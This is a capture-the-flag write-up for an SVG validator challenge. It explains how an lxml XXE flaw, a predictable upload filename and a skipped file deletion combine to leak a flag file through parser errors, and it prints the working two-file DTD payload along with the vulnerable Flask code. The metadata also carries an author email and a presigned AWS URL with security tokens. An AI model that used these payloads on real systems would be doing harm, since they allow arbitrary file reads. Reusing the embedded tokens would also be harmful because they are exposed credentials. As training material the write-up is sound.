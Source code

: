 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466S22QWTA4%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T123140Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJGMEQCIBqP4OoOzaa%2B%2F9b%2BoRLIIO7O64GhXXS8SvTwgq74ZoWPAiAegF1d%2Bx84owwnIaqO4DQ6Qy7j81jhUHBe%2BgJW5ytE1CqIBAjt%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMGYohH04TNqRLvc6XKtwDy0pVJsQSYrQdgFGSr6qLStZc%2FQTAYPmPmma5pmmYGUFBenVXDh8mWpMhk2qlErsVmKLdGgdWQ7LiFqppkfA%2FQVLk62FZanrDDdQ6yrxINv7WyMWLi2OPUqOwscuv5q%2Fbo0soR8lQ7y5fpFZgC7SLI3c6%2FM7YUPZuwWmHN7BkaImNq2nNKMvhm1GFfFNcoItPYv1BXvXqj6ib5Jesj94P0J5rSwbJcmue6IC4la%2Bp9eGsuRnupJL1S2uu%2B3Po6LsunIYSjSrtvJj0tFdpdi1yVyQhk5eiyrt9qBzjK3SH7nGlpzvno3DSvGlMBut8naM8DdqPS%2B%2B1LoVY6Mkoj%2BBusfq%2BaP54vlF5u2rQEWak0BB1BVhCgFcSuvMlB2ypRp3cmUsjMmhAjdsMcjjI2YIBUX%2BXDEdSs2bOVr4Nnh%2B8vp3G%2B9DcEBuZpqSFd0osDOjR1%2B8rTKJ5oXX%2FN9hAihKf0%2FLj4Q0yI2PEVBiFzPN%2BzliDAhbuQRUBSRbiUM7vD3AqKOMubGzkLztceKOwFdLyrnxjNrD%2FO606KCniCl01%2B4h7i5oWhtnGIlE5zP%2F6O4GmMBFC%2Bv%2FJwqKdE7ugBmRa2C6Q5zoehUub5DeV%2BZuTuzq5%2BIyJj%2BgXX1aLcrIwyL7BwQY6pgGzF0f8EBKp6PjQHTreElAij21sk86%2FaoSLmBmRUmGJ8nO3bap5P39uIfr%2FKsKos7jXOZlgI0GsZUS0YKnzAV9ZXa28Q6kTyZ6VN5bQqLq1Bpmmte7pZMvwz0BZbdubU9HcyOCE9n4QlRo84gJac7gQ%2B1J7LKx43NPG6Sqa%2F%2F5ZnNR38iamENgcrF7NmBytK8XY3GH2E9QNtJY2x8z4DAlKg0p4V0BK\&X-Amz-Signature=15146b9600724a7808c6c3abcd417dd784418682820f617d04126d6539ee8f54\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)

